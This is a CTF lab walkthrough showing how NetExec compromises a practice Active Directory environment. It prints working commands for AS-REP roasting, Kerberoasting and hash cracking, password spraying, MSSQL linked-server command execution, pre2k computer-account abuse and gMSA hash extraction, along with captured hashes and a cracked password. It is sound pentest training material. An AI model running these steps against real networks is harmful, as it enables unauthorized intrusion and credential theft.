


Machine Summary
On this page
- Enumerate Hosts
- Find Out DCs on the Domains
- Setting Up /etc/hosts & Kerberos
- Setting Up FQDN
- DNSMASQ
- Enumerate Null Session
- Enumerate Guest Logon
- Scan for Vulnerabilities
- SmbGhost - CVE-2020-0796
- Network Level Authentication (NLA) - Disabled
- ASREP-Roasting Attack
- Kerberoasting Attack Without Pre-Authentication
- Kerberoasting Attack With Authentication
- Spidering Shares
- Password Spraying
- MSSQL Abuse - Trust Links
- Basic Enumeration via Trust Links
- Pre-Created Computer Accounts Abuse
- gMSA Abuse
- Certificate Authentication (PFX)
- Dumping SAM Hashes
- Dumping LSA Hashes
- Obtaining Credentials with NetExec - PowerShell History
- Password Spraying
- Backup Operators Abuse
- Domain Admin to empire.local
- Unintended Way of Getting Domain Admin on empire.local
- NTLM Hash Spraying
Welcome to the NetExec Active Directory Lab! This lab is designed to teach you how to exploit Active Directory (AD) environments using the powerful tool NetExec.
Originally featured in the lehack 2025 CTF, this lab is now available for free to everyone! In this lab, you’ll explore how to use the powerful tool NetExec to efficiently compromise an Active Directory domain during an internal pentest.
The ultimate goal? Become Domain Administrator by following various attack paths, using nothing but NetExec! and Maybe BloodHound (Why not?)
Obviously do not cheat by looking at the passwords and flags in the recipe files, the lab must start without user to full compromise.
The lab is on the network range 10.2.10.0/24 .
Enumerate Hosts
Since we know this is a full AD CTF, let’s start by using NetExec to find all the windows machines we have on the network.
netexec smb 10.2.10.0/24

Well we were able to find 4 hosts on the next work and it seems like we do have 2 domains, empire.local & rebels.local.
We also know that Microsoft setup DC SMB signing as True by default. So all the DCs are the one with signing at True. (In a secure environment signing must true everywhere to avoid NTLM-Relay)
Find Out DCs on the Domains
Let’s try find out if we do have Domain Controller inside these 2 domains and if we do, what are the domain controllers for each of them.sudo nslookup -type=srv _ldap._tcp.dc._msdcs.empire.local 10.2.10.5

coruscant.empire.local is the empire.local domain controller.
sudo nslookup -type=srv _ldap._tcp.dc._msdcs.rebels.local 10.2.10.7

jedha.rebels.local is the rebels.local domain controller.
Setting Up /etc/hosts & Kerberos
Because we are dealing with AD environment with no DNS resolution, we need to do some basic configurations to avoid DNS issues when using LDAP or Kerberos protocols in the future. To achieve this we will be using --generate-hosts-file flag from NetExec to generate our host data that will be imported into our /etc/hosts file.
netexec smb 10.2.10.0/24 /tmp/ip --generate-hosts-file /tmp/hostsfile

cat /tmp/hostsfile

Let’s now add this info into /etc/hosts file.

Install and Configure Kerberos on Kali
Kerberos is the authentication protocol used in Microsoft’s Active Directory. It’s used to verify the identity of a user or computer requesting access to resources. Clients receive a special token called a ticket using Active Directory’s Kerberos Key Distribution Center (KDC). Since we will dealing with kerberos authentication, let’s configure kerberos client on our Kali Linux machine.
sudo apt install krb5-user
Now using NetExec with --generate-krb5-file flag, we can generate a Kerberos file configuration on both domains we have on our targeting network by contacting the DC.
There are 2 options to import the data created by NetExec. One by Editing the /etc/krb5.conf file and Two by importing the configuration into our current session.
Here I’ll be using the 2nd option. We will be importing it into our current session wherever we need to deal with kerberos on each domain.
sudo netexec smb 10.2.10.0/24 -u '' -p '' --generate-krb5-file /tmp/krb5conf

cat /tmp/krb5conf
[libdefaults]
dns_lookup_kdc = false
dns_lookup_realm = false
default_realm = REBELS.LOCAL
[realms]
REBELS.LOCAL = {
kdc = jedha.rebels.local
admin_server = jedha.rebels.local
default_domain = rebels.local
}
[domain_realm]
.rebels.local = REBELS.LOCAL
rebels.local = REBELS.LOCALNow whenever we need to import it into our current session, we will use the following command below.
export KRB5_CONFIG=/tmp/krb5conf
Setting up FQDN
A fully qualified domain name, sometimes also referred to as an absolute domain name, is a domain name that specifies its exact location in the tree hierarchy of the Domain Name System. It specifies all domain levels, including the top-level domain and the root zone.

Why do we configure an FQDN?
FQDNs are easier to remember than IP addresses and are needed to configure the DNS and IP address of a device on the internet.
For example, when trying to reach Google, it's much easier to type google.com in the browser, instead of finding and typing its numerical IP address. Getting an SSL certificate.
DNSMASQ
Last but not least, dnsmasq is designed to act as a DNS forwarder, DHCP server, and TFTP server for small networks. You can use dnsmasq as an alternative to configuring separate DHCP and TFTP services.
First we start by installing dnsmasqsudo apt install -y dnsmasq
Now we edit the /etc/resolv.conf file and add the follow configuration.
sudo vim /etc/resolv.conf
nameserver 127.0.0.1

Then we will use dnsmasq by pointing it to use /etc/hosts file to read the machines configured on the file for the translation.
Since we already added the machines into /etc/hosts file, let’s use the following dnsmasq command.
dnsmasq -H /etc/hosts

It’s all set, we can now test it by using host and the name of the servers and it will translate it to the real IPs.

Well, we are ready to go now.
Enumeration
Null Session, also known as Anonymous session, is enabled on the network. Can be very useful on a Domain Controller to enumerate users, groups, password policies, etc.
When we start our enumeration phase, one of the first things I always do, is to check if we are able to enumerate for Null Session which if exploited, will allow us to enumerate users, groups, internal policies configured. We will enumerate Null Session with the following commands below.
nxc smb 10.10.10.161 -u '' -p ''
nxc smb 10.10.10.161 -u '' -p '' --shares
nxc smb 10.10.10.161 -u '' -p '' --pass-pol
nxc smb 10.10.10.161 -u '' -p '' --users
nxc smb 10.10.10.161 -u '' -p '' --groupsEnumerating Null Session on empire.local domain.

Enumerating Null Session on rebels.local domain.

As we can see Above, Null Session has been disabled and we were not able to get no info out of it.
Enumerate Guest Logon
A “guest logon misconfig” in Active Directory likely refers to the built-in Guest account being enabled, insecure guest logons being enabled for SMB, or misconfigurations in Azure AD for external guests. Using a random username and password you can check if the target accepts guest logon. If so, it means that either the domain guest account or the local guest account of the server we're targeting is enabled.
Enumerating Guest Logon on rebels.local.
netexec smb jedha.rebels.local -u 'a' -p '' --users
netexec smb jedha.rebels.local -u 'Guest' -p '' --users
Enumerating Guest Logon on empire.local.
netexec smb jedha.rebels.local -u 'a' -p '' --users
netexec smb jedha.rebels.local -u 'Guest' -p '' --users
Well, as we can see above, we did Guest Logon enumeration on both domains but no success. It is also possible to see that Guest user is disabled on both domains when we see the message STATUS_ACCOUNT_DISABLED.
Scan for Vulnerabilities
After several enumerations like the ones we have done above, we can also try to scan some well-known vulnerabilities using NetExec as well.
netexec smb jedha.rebels.local -u '' -p '' -M smbghost

netexec smb jedha.rebels.local -u '' -p '' -M printnightmare
netexec smb jedha.rebels.local -u '' -p '' -M zerologon
netexec smb jedha.rebels.local -u '' -p '' -M nopac
netexec smb jedha.rebels.local -u '' -p '' -M smbghost
netexec smb jedha.rebels.local -u '' -p '' -M ms17-010
netexec smb jedha.rebels.local -u '' -p '' -M ntlm_reflection
netexec smb coruscant.empire.local -u '' -p '' -M printnightmare
netexec smb coruscant.empire.local -u '' -p '' -M zerologon
netexec smb coruscant.empire.local -u '' -p '' -M nopac
netexec smb coruscant.empire.local -u '' -p '' -M smbghost
netexec smb coruscant.empire.local -u '' -p '' -M ms17-010
netexec smb coruscant.empire.local -u '' -p '' -M ntlm_reflectionWell, it seems like we do have something, our enumeration on both domains show us that potentially both domains are vulnerable SmbGhost .
SmbGhost - CVE-2020-0796
A remote code execution vulnerability exists in the way that the Microsoft Server Message Block 3.1.1 (SMBv3) protocol handles certain requests, aka 'Windows SMBv3 Client/Server Remote Code Execution Vulnerability'.
Network Level Authentication (NLA) - Disabled
While enumerating for RDP on all machines inside this network, I was able to find out that host mustafar.empire.local has nla:False.
One widely used method to secure remote connections is Network Level Authentication (NLA), a feature of Microsoft’s Remote Desktop Protocol (RDP). NLA requires users to authenticate before starting a remote session, adding a layer of security and reducing the risk of unauthorized access. While effective in many cases, NLA faces limitations in modern enterprise environments, where diverse protocols, devices, and systems demand more flexible solutions.
netexec rdp 10.2.10.0/24

How NLA Secures Remote Access
When a client attempts to establish an RDP connection to a server with NLA enabled, the process follows several key steps:
1. Initial Connection
The client initiates a network connection with the server using RDP over TCP, usually on port 3389. A request is made to begin a session.
2. Negotiation Phase
The server responds by presenting its supported authentication methods, including NLA. The client selects NLA, signaling the intention to use this enhanced authentication mechanism.
3. Credential Security Support Provider (CredSSP)
NLA uses CredSSP, a protocol that encrypts and securely transmits the client’s credentials to the server. This prevents sensitive information from being exposed during transmission.
4. Pre-Authentication
The server verifies the credentials before allowing the session to proceed. If the credentials are valid, the server grants access and creates the session. If not, the connection is denied, and no session resources are allocated.
5. Session Establishment
Once authenticated, the remote desktop session is established, and the user gains access to the system.
Security risks of disabling NLA
- Increased vulnerability: The most significant risk is the increased exposure of the network to unauthorized access and a wide range of cyber threats.
- Credential theft: Without NLA, an attacker can connect to a machine, present a fake login prompt, and steal user credentials or perform brute-force attacks on
them.
- Denial-of-Service (DoS) attacks: Disabling NLA allows attackers to connect repeatedly and exhaust server resources with numerous login attempts, potentially leading to a
denial-of-service for legitimate users.
- Man-in-the-middle attacks: Without NLA, there is no way to verify that the remote computer is the
one you think it is, making it easier for attackers to intercept
communications and steal credentials
NLA relies on CredSSP to present the user’s credentials to the server before any session is created. So, with NLA disabled, it’s possible to establish an RDP session without prior authentication. That doesn’t mean we can log into a user session, but we can at least reach the Windows login screen and potentially gather useful information such as currently active sessions or usernames.
By using Netexec, we can use it’s module that allows us to take screenshots on windows login screen over RDP when NLA is disabled.
netexec rdp mustafar.empire.local --nla-screenshot


Well, the screenshot above, shows us that we can access the Windows Login Page, and it sees like we do have a possible user named grievoussssss & krennic.
What a complicated usernames though.
ASREP - Roasting Attack
AS-REP Roasting is an attack that exploits the absence of Pre-Authentication. If an account is configured to not require Pre-Authentication, the attacker can request an AS-REP for that account without needing to know the password.
Furthermore, no domain account is needed to perform this attack, only connection to the DC. However, with a domain account, a LDAP query can be used to retrieve users without Kerberos pre-authentication in the domain. Otherwise usernames have to be guessed.
What is Kerberos?
Kerberos is a network authentication protocol designed to provide secure authentication for users and services. It uses secret-key cryptography and requires a trusted third party, known as the Key Distribution Center (KDC).
How Does Kerberos Work?
- Authentication Service Request (AS-REQ): A client requests a ticket from the KDC.
- Authentication Service Response (AS-REP): The KDC responds with a ticket-granting ticket (TGT), encrypted with the user's key (derived from the user's password).
- Ticket Granting Service Request (TGS-REQ): The client uses the TGT to request access to a specific service.
- Ticket Granting Service Response (TGS-REP): The KDC responds with a service ticket, which the client uses to authenticate to the service.
What is Pre-Authentication?
Pre-authentication is a security feature where the client must prove its identity before the KDC issues a TGT. This is usually done by the client encrypting a timestamp with its password hash and sending it to the KDC. The KDC decrypts it and verifies the timestamp.
Steps in AS-REP Roasting:
- Identify Accounts without Pre-Authentication: The attacker identifies user accounts that do not require pre-authentication.
- Request AS-REP: The attacker sends an AS-REQ for the identified account.
- Receive AS-REP: The KDC responds with an AS-REP that includes a TGT encrypted with the user’s password hash.
- Extract Encrypted TGT: The attacker extracts the encrypted part of the AS-REP.
- Offline Password Cracking: The attacker attempts to crack the password offline using brute force or dictionary attacks against the encrypted TGT.
Now that we do have a new possible user for empire.local domain, we can go and try to enumerate asreproast using NetExec.
netexec smb mustafar.empire.local -u 'grievoussssss' -p ''

It was possible to find this vulnerability by using the -k option because I want to force the authentication to be via Kerberos instead of NTLM.
netexec smb empire.local -u 'grievoussssss' -p '' -k

Let’s now use request the encrypted TGT for user grievoussssss.
netexec ldap empire.local -u 'grievoussssss' -p '' -k --asreproast output.txt

As we can see above, we were able to retrieve the encrypted TGT for grievoussssss account since it has pre-auth disabled.
I’ve tried to crack this hash with our conventional Rockyou.txt wordlist with hashcat tool, but it seems like this has been encrypted using a strong password.
Kerberoasting Attack Without Pre-Authentication
Kerberoasting is a post-exploitation attack technique that aims to obtain the password hash of an Active Directory account that has a Service Principal Name (SPN).
This attack involves an authenticated domain user requesting a Kerberos ticket for an SPN, which is encrypted with the hash of the service account password. The attacker then works offline to crack the password hash, often using brute-force techniques. Once the plaintext credentials are obtained, the attacker can impersonate the account owner and gain access to any systems, assets, or networks granted to the compromised account
BUT… There’s always a BUT…
In September 2022, Charlie Cark explained how Service Tickets could be obtained through AS-REQ requests (which are usually used for TGT requests), instead of the usual TGS-REQ. He demonstrated (and implemented) how to abuse this in a Kerberoasting scenario.
If an attacker knows of an account for which pre-authentication isn't required (i.e. an ASREProastable account), as well as one (or multiple) service accounts to target, a
Kerberoast attack can be attempted without having to control any Active Directory account (since pre-authentication won't be required).
During our NLA Disabled abuse, we were able to find out 2 accounts, which were grievoussssss and also krennic, we can also try this attack by using both usernames as possible users with SPN enabled. To be able to move on with this attack using NetExec, we need to update NetExec to Dev version since we do have the option on the last stable release. Once we have it update then we can move on and try it.
poetry run netexec ldap empire.local -u 'grievoussssss' -p '' --no-preauth-targets users.txt --kerberoasting output.txt -k

$krb5tgs$23$*krennic$EMPIRE.LOCAL$krennic*$ae73272b04c70abc725b20ea4ba22a03$b09f615076267857f11f45b9799e35a02cc64bada83473f4b0330572272cf39c220ac00a2491aca69bf92a7392d88925abfeef94492a7d8abd9a32e60f43e4d2a76c1b6e80947a08be38315516415b61f209ff3153d894ca46fe5fbcb3cf0bc223535b23f9542123431bf0ecfdf408d58360bec95ceb9c5ccbf422e0dd3b24524c3a3bd53dbb0eb98984207135d77c1e188b5f4e0bbe8363ff17088ba7e8e3d82bf527473655b9ca85ac6814c8440a186b85d827dc87da034ff7c48ca4565c17ecc1d87be9f2795bd17f4854edf3410f5ace11fe14933002f10e86d33e8c939571c8b0b6dbe31fa3c402cafcefd22e290479995d0c6963accde41750dd6a838d380e2bcc431448e8adf639f0834e29f6fb44634e811d9ec53950fb96b9f34c308b9120d6838ebfffc32e45e62e96c202e93f0166ed002529f940c49ba19cd7058fc00cc1fcf3c0b64b0b2cd307b05175925ab763d5c7b55c6f5af36dfc4db9fbae55a329e1a6056ec7ab057f3f7ff6b76581111cce1336c219b7dab8bcee7bbfdadd53a2ddc678cb5e934e555c6882e49b7a3193860e7851e6c2b1ade407192d2b7ba7c7dfec314b47a2174b982f61b54d65fc47ffee7caf246b66b044dd9f71579314365f786009ef92705ac399d1b305fce1b3d6a46e96c05e31c5ec0ebaefa97ff7e0b5cf998df1073ff033180b6830ea4125d29b97f2a08edaab0f2f57381a97017a3d370e563d1ce72c8c216624d0f413e586a07129d5491126244d14b6cd76af66a7535d28edf33c3646b42adc5df1cb80a659491b938e06bc77a5f97929cb212ddce0e6a2bdeb6952654620f324f7f494845aed06ee7cf86b7ad8344d6b588ebb96858896ba6fbd85913e2c7f861bc8433a5367243e26a6c866fdd248bd2993325f83bf6d016f6b4d9c79c37ef29da26db8a3e29fbcd131e4978f9cb04f501f89d23099f167adc4954e9f67e6dc3049510e126db280d9abca528eb02fb8eb62ca526a141f47773ad1337b81c82e2647d8c98f947440492c470ea257d0e4da334288b97e217bd476eeb42f51b69fdae35659cfe9e2ca9fbd68b17f9f4dcdd1073aa04271f21c2d7bfbb3eaf2d9dd4cd84be8d8da2bc48710951008358f3528c424d9c29669e4ed7026665d1205ea2d5a4a98f9737bd81718f3c7519cb355502f3e5780bd9bbf7f1d324db7e0c351100d5d5a04f80ff4f60710abfe54b9e25bdf632f88fa5ff1568871959af4dfbe2c2133e6d3c4601295cd9a502c1be2d4301ade32cbc178e05fa496fb4b41ff409396d3677818dd6edc436a610560e0056cef562da2d12e7e7ff21086400797ea74ec609cc5659383dabf74eef4f86c41bf2771466182e0721cfe27e99304a4b9db619a8b56ed062be62a597176077e0edc5f847460a24b230e2b6145652dfde9062c3a32e4a3bbdb6141a79fce35baadc5f5001a3afb9c51ffWell, amazing, we were able to get the Service Principal Name hash for krennic. We should try to crack its hash.
We can use Hashcat or John to crack the hash.
hashcat -m 13100 --force <TGSs_file> <passwords_file>
john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
hashcat -m 13100 -a 0 kerberoast_hash /usr/share/wordlists/rockyou.txt -O

We were able to crack it and we have found the password for user krennic (liu8Sth). Now we do have a valid empire.local domain user. It is now time to start enumeration again, but this time as a valid domain user.
netexec ldap empire.local -u 'krennic' -p 'liu8Sith' --users

Because we do want the list of all users in a specific file, we can use the --users-export flag from NetExec and all users will be inside the file we mentioned for output.
netexec ldap empire.local -u 'krennic' -p 'liu8Sith' --users-export users.txt
cat users.txt

Kerberoasting Attack With Authentication
Previously we have explained what is kerberoasting attack and also we explained the reason why we were able to abuse it without authentication.
Now that we do have a valid domain user and also a list of all valid domain users, we can now try to make a new Kerberoasting attack but this time using the list of all users to find out if besides our previously SPN enabled found user krennic we also have another on.
netexec ldap empire.local -u 'krennic' -p 'liu8Sith' --kerberoasting KERBEROASTING -k

As it is possible to see on the screenshot above, when we used the flag -k that stands for --kerberos which uses Kerberos authentication, we had the KRB_AP_ERR_SKEW error. This issue basically means that the clock or time between our attacking machine and our target is completely different and this can easily be solver by putting our attaking mahcine date and time close to the target using the following command.
sudo rdate -n -s coruscant.empire.local
Now, if we try again…
netexec ldap empire.local -u 'krennic' -p 'liu8Sith' --kerberoasting KERBEROASTING -k

$krb5tgs$23$*sql_svc$EMPIRE.LOCAL$empire.local\sql_svc*$3811e961237e1ba8b8a98de8d54353f7$d7ee0a067c39e3c19aa065b67c6da0fbe4a31bad2eba069202397bd8e41cc73c09ae0d4ad2da5dcb5c4c9fc1c87a0941bed7710a26e55d230849f47806e3f9436733d7358d8d4cb19cce712f0c09983d8d3d18bcb47987a7e9b470539467aca410dbca169f46141a7414ffe8d392c9c3c90762b527a9a717e0491ba7fb9551d18589f0c2dd156d624b88e2697e3465c9b1b39ae5bff4458f16f76c3dbe1ff09f34b48b4b5215e3961ca7a98b4d97cec6d292867c6651046dbdfd4bf5d3dec3b6d184d7fb6ee95ad34a76802493cc28a09af663ee65e360a47b4afe6c5facb9583c30cc6a2ff944b3182e2741d3f7c773da6bd9a80cb11ac97a7962b9de0cfeede2ab39ca48a221483067fa5ae661dfc26225de9ac8d4f62dd1b3d9a0e42caaf0cf55e39cf4c990a3ac155259ae7abb8c6cefd711a79b739a5e907e15200f7fba0c0ba3e823af9f0d524ddf56c0a93a024f237203e9a0ffae21f6f61ab164336cc4cac9d12128f684ccaa3a8761b06995a937d4416cfbec668e4db9524ade953a7c4f359b1bc832d9f8f7eecdb9dc18b679163a3aec4c8fb4e6aa9c2b4292a38f5989984b781edd5705c89013c5d5963931c9e82b81deb95491e7c2cced6ae7a08062e54839ed07724c80a3319b17391f79bc5877da1fc72cfdcb918de07ad98f71ba000d98192c9f01e263da2b984c071b514cfbe74e1c122893f87bb0ded175c7894449842f7f4f781ca04240348a0b82e6db8c4e4c8811462cf318d7b7f9e23a38641225107482900a22c5095b7d600b48dd3ebc7eab0decd71dae1e4cec643c51e8380dc30651c246ff2965364bbb35d6db801a64baeeeb5ba71e24caee7f7be3b18142fc2c6a20e80b28bfe268715ef15eb42773e50e2ff3416ad479952948dc643163104690705d965f79b0a16fc90b725a9ffee89fd2806fa715e289f256368d049b70a9078eaddacb451b870e35e1e76b527dc1220160831c9f0ca703f6fcf5d2b74a50ba2f066f394a31ec34be200ff28fadf597bf1fd43fdc316abbbc26616db222b590469325ac15f70d89aabb95b3468729d15b9e33ebe01da1fba95938a53af69966c030fad37a8b2446f0b3f172cfae715f624fdc95736fbf6fcf62a5c593d660e5c046c998f79a7a3dd5570e97ac05164e934547698c9675456881193b19d02dea6d6854838e091cb87df60bb156f41e4b3804883b4ad66e1c9b46ec212a9b84712e21ab4adebf33bb6e776c2d8e73e5b72c0ab088331dab1fdd2d92c5f63d7ad2005460a0c47673e98d207581ef112324dc9a8cd85f9cfc54c6d9e1fb3d542d5b1b2e6574ce27201c816a60c1667bf5fcca5766f637d816d904425188af314b7ad4730af97a329e45bca5b1a19796bcbef8203f1af34e7c4e0d32544aWell, this time we were also able to found a new account with SPN enabled which is the sql_svc account which the default service account for MSSQL service, but we did not succeed on cracking it’s hash.
Let’s continue our enumeration and see what else we can find during our authenticated enumeration.
Let us start by enumerating the internal password policy with the following command.
netexec smb empire.local -u 'krennic' -p 'liu8Sith' -k --pass-pol

It is also possible to check the valid domain groups inside empire.local and it also shows us the total members for each group.
netexec ldap empire.local -u 'krennic' -p 'liu8Sith' -k --groups

Spidering Shares
The module spider_plus allows you to list and dump all files from all readable shares.
Checking available shares on target’s network.
netexec smb empire.local -u 'krennic' -p 'liu8Sith' --shares -k

Spidering all available shares with spider-plus module.
netexec ldap empire.local -u 'krennic' -p 'liu8Sith' -k -M spider_plus

MSSQL Attack
While doing several enumerations, I tried the password spraying using the list of the users we already have with the password we also found by cracking krennic Service Principal Name hash and I was able to find out that our user krennic can also login into MSSQL service running on mustafar.empire.local machine.
netexec mssql 10.2.10.0/24 -u 'krennic' -p 'liu8Sith' -k

That’s amazing, let’s try and enumerate this MSSQL server as well.
netexec mssql mustafar.empire.local -u 'krennic' -p 'liu8Sith' -k -M mssql_priv

Enumerating MSSQL logins.
netexec mssql mustafar.empire.local -u 'krennic' -p 'liu8Sith' -k -M enum_logins

While enumerating for MSSQL login users, we are able to find 2 users, which are sa and droideka.
Login and User, what is the difference ?
- A “Login” grants the principal entry into the SERVER
- A “User” grants a login entry into a single DATABASE
“SQL Login is for Authentication and SQL Server User is for Authorization. Authentication can decide if we have permissions to access the server or not and Authorization decides what are different operations we can do in a database. Login is created at the SQL Server instance level and User is created at the SQL Server database level.
We can have multiple users from a different database connected to a single login to a server.”

Password Spraying
Now that we were able to find a new user, it’s always good and useful trying the same username as password. By following this rule, we are able to find that droideka’s password is also droideka.
When trying to auth this user via domain user, we get the error (Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication. Please try again with or without '--local-auth')
netexec mssql 10.2.10.6 -u 'droideka' -p 'droideka'

So let’s try it using the local-auth option, which means we are trying to authenticate as a local user account instead.
netexec mssql 10.2.10.6 -u 'droideka' -p 'droideka' --local-auth

Voila, we were able to confirm that droideka e a local account on MSSQL server.
MSSQL Abuse - Trust Links
Now that we know that droideka is a valid MSSQL local account, let’s try to explore it using NetExec and do our enumeration.
Let’s start by enumerating version and databases inside this MSSQL server.
netexec mssql mustafar.empire.local -u 'droideka' -p 'droideka' --local-auth -q 'Select @@version;’

Above we can see that MSSQL runs on version Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)Now, checking the Databases inside this server.
netexec mssql mustafar.empire.local -u 'droideka' -p 'droideka' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;’

We can also enumerate MSSQL Trust Links via NetExec via enum_links module.
netexec mssql mustafar.empire.local -u 'droideka' -p 'droideka' --local-auth -M enum_links

How Trust Links enumeration shows us that we have a trust link from DANTOOINE to MUSTAFAR.
By abusing this Trust Link via MSSQL, we can also try to check what type of rights when accessing using or accessing this service on MUSTAFAR.
netexec mssql mustafar.empire.local -u 'droideka' -p 'droideka' --local-auth -q 'Select * From openquery("DANTOOINE", "Select * from master.dbo.sysdatabases;;");'

We’ve confirmed that MUSTAFAR’s SQL service account has at least RPC-out permissions to DANTOOINE and that delegation or login mappings are configured in some way that allows us OPENQUERY call to run. The key question is what identity is actually being used on the remote side. In other words, when MUSTAFAR queries DANTOOINE, who is DANTOOINE treating you as.
This is where an honest check is useful. If the link is configured with “be made using this security context,” then you inherit the hardcoded SQL credentials stored on MUSTAFAR. If it uses “be made without using a security context,” then you basically hit the remote server as anonymous, which often leads to limited access. And if it is configured for “current security context,” the SQL Server service account on MUSTAFAR becomes the caller on DANTOOINE. That last case is where privilege escalation paths sometimes emerge if the service accounts differ.
I tried several ways to check if we are able to make queries to the trusted link as Admin, but for some reason I’m not able to.

So I decided to take a shot and try to check if we can use xp_cmdshell on on DANTOOINE.
Let’s try to execute OS command on our trusted link and see if we get any positive feedback.
netexec mssql mustafar.empire.local -u 'droideka' -p 'droideka' -M link_xpcmd -o LINKED_SERVER='DANTOOINE' CMD='whoami' --local-auth

Our whoami command confirms that we have RCE on DANTOOINE . We can currently execute OS as sql_svc on rebels.local domain.
We start checking the directories around and we can find the following information on a file named info.txt.
poetry run netexec mssql mustafar.empire.local -u 'droideka' -p 'droideka' -M link_xpcmd -o LINKED_SERVER='DANTOOINE' CMD='type C:\rebels_plan\info.txt' --local-auth

Since I don’t know that match about Star Wars Universe I decided to ask the following to ChatGPT.

Well, I have no idea about it at all. HAHA!
Basic Enumeration via Trust Links (Enumerating rebels.local)
Well, Since we do have RCE on rebels.local, let’s do some basic enumeration on our next targeted domain which is rebels.local.
Enumerating users on rebels.local
Let’s start by checking all domains users on our target.
poetry run netexec mssql mustafar.empire.local -u 'droideka' -p 'droideka' -M link_xpcmd -o LINKED_SERVER='DANTOOINE' CMD='powershell -command "net Users /domain"' --local-auth

Enumerating computers on rebels.local.
We should also check the list of computers we have on this domain.
poetry run netexec mssql mustafar.empire.local -u 'droideka' -p 'droideka' -M link_xpcmd -o LINKED_SERVER='DANTOOINE' CMD='powershell -command "net group \"Domain Computers\" /domain' --local-auth

Now that we were able to collect these information from our new target, let’s also some few basic enumerations. it’s important that we create a file containing the list of users and also the list of computers.
Pre-Created Computer Accounts Abuse
After doing several basic enumerations like ASREP-ROASTING, for example, It was possible to find out that inside rebels.local domain we do have a machine with Pre-Created Computer accounts enabled.
In an Active Directory (AD) network, Administrators will often stage computer accounts to ensure the host is in the proper organizational unit or security group prior to joining the host(s) to the domain. If the staged computer account is configured as pre-Windows 2000 compatible, they are set with a password that matches the hostname in all lowercase. For example: HOSTNAME$:hostname.
Whenever a computer account is created, it has the following UserAccountControl flags set:
- 32 - PASSWD_NOTREQD
- 4096 - WORKSTATION_TRUST_ACCOUNT
That means that accounts with the value of 4128 (4096 | 32) are pre-created computer accounts. After a computer account has joined the domain, it will just have the WORKSTATION_TRUST_ACCOUNT flag set (4096).
NetExec has the -M pre2k module, to enumerate and abuse this type of configuration, but for some reason, I was able to abuse it without even use its module. The module was supposed to find and also request the computer’s TGT once its password matches, but it was not working for me and because we know that not all days are shinny, let’s do it another way.
netexec ldap rebels.local -u rebels_computers -p rebels_computers_pass -k

As it is possible to see on the screenshot above, when we tried this not using the -kerberos authentication it failed, but once we used the -k flag, we were able to confirm that, endor$ host can be authenticated with endor password. AMAZING.
Requesting TGT for endor$ Computer Account
Now that we were able to compromise endor$ computer account, let’s request this machine account’s TGT and authenticate as endor$ machine account.
poetry run netexec smb rebels.local -u 'endor$' -p 'endor' -k --generate-tgt /tmp/endor_tgt

Now we can use the requested TGT with NetExec using the --use-kcache flag.
export KRB5CCNAME=/tmp/endor_tgt.ccache
poetry run netexec smb rebels.local -u 'endor$' -k --use-kcache

During our Computer enumeration on rebels.local domain, one of the computers name really caught my attention.
There’s a machine named gMSA-scarif$ and this name triggered my mind about (gMSA).
gMSA (Group Managed Service Account) Attack
gMSA (Group Managed Service Account) is a type of account in Windows Active Directory (AD) designed to securely and automatically manage credentials for services, applications, and scheduled tasks. Unlike traditional service accounts, gMSAs eliminate the need for manual password management by automating the creation and rotation of complex passwords. This reduces administrative overhead and minimizes the risk of human errors.
Key Aspects of gMSA
Group Managed Service Accounts provide us with significant benefits in secure credential management. These accounts allow the domain controller to handle password creation and rotation through the Key Distribution Service (KDS), ensuring that passwords are both complex and regularly updated. Only authorized systems or services, as defined by the gMSA’s security group in Active Directory, can retrieve and use these passwords.
The security model of gMSA integrates tightly with Kerberos authentication, enabling robust support for encrypted communication. These accounts are most commonly used for running Windows services, IIS application pools, SQL Server instances, and scheduled tasks. Since the passwords are stored securely in AD and are non-human accounts, they reduce the attack surface compared to traditional service accounts. However, their privileges and access control must be carefully managed, as gMSAs often have elevated permissions.
gMSA Attack: Understanding the Threat
When we look at gMSA attacks, the focus is on compromising systems that can retrieve and use gMSA credentials. The goal of such attacks is often to escalate privileges or enable lateral movement within the network by abusing the access granted to these accounts. By targeting these highly privileged accounts, attackers can gain significant control over domain resources or sensitive applications.
The passwords for gMSAs are stored in the ms-Mcs-AdmPwd attribute in Active Directory. This attribute is secured so that only authorized systems or services in the gMSA’s security group can access it. If an attacker compromises one of these authorized systems, they can query AD to retrieve the plaintext password of the gMSA and use it for further attacks.
Key Aspects of gMSA Attacks
When analyzing gMSA attacks, we focus on several critical areas. First, we recognize that gMSA credentials often belong to accounts running critical services, such as SQL Server or IIS, which may have elevated privileges in the domain. This makes these credentials valuable for lateral movement or privilege escalation.
Misconfigurations play a key role in enabling such attacks. Overly permissive security group memberships might allow unnecessary systems to access gMSA credentials. Additionally, if we find that the gMSA is granted excessive privileges, it can become a high-value target for attackers. Even though retrieving the password from AD might appear as legitimate behavior, attackers can use this opportunity to blend in with regular activity and remain undetected.
Once the gMSA credentials are obtained, attackers can use them in a variety of ways:
- Authenticating to other systems in the domain.
- Forging Kerberos tickets to impersonate accounts (Silver or Golden Ticket attacks).
- Running malicious services or tasks using the compromised account.
With our newly compromised endor$ machine account, I decided to use NetExec to see if endor$ machine account has the privileges to gMSA’s password by using --gmsa flag.
poetry run netexec ldap rebels.local -u 'endor$' -k --use-kcache --gmsa

Account: gMSA-scarif$
NTLM: 7581e1977e56a2fef27799964139b494
PrincipalsAllowedToReadPassword: endor$
